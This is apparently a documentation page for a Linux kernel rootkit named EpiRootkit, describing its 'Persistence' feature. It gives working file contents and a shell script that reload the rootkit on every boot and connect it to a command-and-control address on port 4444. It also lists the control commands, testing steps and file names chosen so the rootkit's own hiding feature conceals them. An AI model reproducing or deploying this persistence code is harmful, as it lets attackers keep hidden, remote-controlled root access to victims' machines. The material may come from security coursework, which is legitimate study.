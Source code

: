 ```yaml
---
title: "Persistence"
description: "Automatic rootkit loading across reboots"
icon: "autorenew"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 515
---
```




## modules-load.d Method

Modules are

Creates two files:

**`/etc/modules-load.d/jules_est_bo_system.conf`**:
```bash
# EpiRootkit module
epirootkit
```

**`/etc/modprobe.d/jules_est_bo_modprobe.conf`**:
```bash
# EpiRootkit module parameters
options epirootkit address=192.168.200.11 port=4444
```

## Shell Profile Method

Creates `/etc/profile.d/jules_est_bo_env.sh`:

```bash
#!/bin/bash
# System environment initialization
if [ "$(id -u)" -eq 0 ]; then
    # Check if module is already loaded via proc filesystem
    if [ ! -f /sys/kernel/epirootkit/control ] && ! grep -q "^epirootkit " /proc/modules 2>/dev/null; then
        modprobe epirootkit address=192.168.200.11 port=4444 2>/dev/null || insmod /lib/modules/$(uname -r)/extra/epirootkit.ko address=192.168.200.11 port=4444 2>/dev/null
    fi
fi
```

## Commands

```bash
persist                      # Install both methods
persist_remove               # Remove all
status                       # Check status
```

## Testing

```bash
sudo insmod epirootkit.ko address=192.168.200.11 port=4444
# Install persistence via C2/WebUI command: persist
sudo reboot
lsmod | grep epirootkit
```

## Status Response

```json
{
  "persistence": {
    "enabled": true,
    "methods": {
      "modules_load": {
        "active": true, 
        "files": {
          "modules_load": "/etc/modules-load.d/jules_est_bo_system.conf",
          "modprobe": "/etc/modprobe.d/jules_est_bo_modprobe.conf"
        }
      },
      "shell_profile": {
        "active": true, 
        "path": "/etc/profile.d/jules_est_bo_env.sh"
      }
    }
  }
}
```

## File Naming

- **modules-load.d**: Uses `jules_est_bo_` prefix for stealth (matches file hiding pattern)
- **modprobe.d**: Uses `jules_est_bo_` prefix for stealth consistency  
- **profile.d**: Uses `jules_est_bo_` prefix for stealth

**Reliable, standards-compliant persistence with consistent stealth naming.**